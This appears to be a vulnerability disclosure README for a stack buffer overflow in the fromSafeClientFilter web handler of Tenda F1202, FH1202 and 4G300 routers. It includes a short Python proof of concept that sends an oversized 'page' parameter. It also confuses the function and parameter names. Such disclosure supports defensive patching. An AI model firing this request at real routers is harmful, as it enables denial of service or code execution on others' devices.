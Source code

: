 # Tenda Router Vulnerability on fromSafeClientFilter function

This vulnerability lies in the `/goform/fromSafeClientFilter` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence 4G300

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromRouteStatic` it reads 1 user provided parameters `page` into `v10`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v15`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSafeClientFilter`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSafeClientFilter?"
url += "page=" + "s" * 0x200
url += "&menufactuer=tenda&op=0&ipflag=1&timeflag=2" 
url += "&entrys="+'s'*0x200


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge